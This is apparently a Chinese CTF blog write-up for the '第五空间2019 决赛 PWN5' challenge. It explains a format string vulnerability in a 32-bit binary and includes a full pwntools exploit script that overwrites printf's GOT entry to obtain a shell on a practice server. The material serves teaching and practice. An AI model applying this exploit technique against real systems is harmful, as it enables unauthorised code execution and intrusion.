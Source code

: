```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      [第五空间2019 决赛]PWN5				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-2.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - 格式化字符串漏洞
---
```


# 第五空间2019 决赛PWN5

## 考点

- 格式化字符串漏洞

## 解题过程

1. 首先使用`checksec`工具查看基本信息

![checksec](https://s3.bmp.ovh/imgs/2023/10/23/5fb282a04040137e.png)

​		为32位，canary，dep防护

2. 使用ida工具进行静态分析。

`main`

![main](https://s3.bmp.ovh/imgs/2023/10/23/e3464ffd0f8240a3.png)

​		main函数主要代码如上图所示，可以看见`print((int)v7)`存在格式化字符串输出漏洞，因此可以考虑进行利用（**注：由于输入read限制了输入长度，导致无法通过泄漏canary方法来进行栈溢出攻击。**）

3. 构造python脚本如下，主要思路为修改printf的got表plt地址为要执行的代码地址（若开启full relro则无法使用），然后再代码执行到下一次调用printf函数时会转去执行目标代码。获得shell。

```python
from pwn import *

context(arch="i386", log_level="debug")
# p = process("./pwn")
p = remote("node4.buuoj.cn", 29338)

elf = ELF("./pwn")
printf_got = elf.got["printf"]
info(printf_got)
vuln_1 = str(0x0804)
vuln_2 = str(0x931A-0x0804)

payload = flat(b'%', vuln_1, b'c',b'%17$hn', b'%', vuln_2, b'c', b'%18$hn')
payload = payload.ljust(28, b'\x00')
payload = flat(payload, printf_got+2, printf_got)
# gdb.attach(p, 'b *0x080492BC')
p.sendlineafter(b'your name:', payload)
p.recvuntil(b"Hello,")

p.interactive()
```

## 结果

![result](https://s3.bmp.ovh/imgs/2023/10/23/1c94abe36580b65a.png)
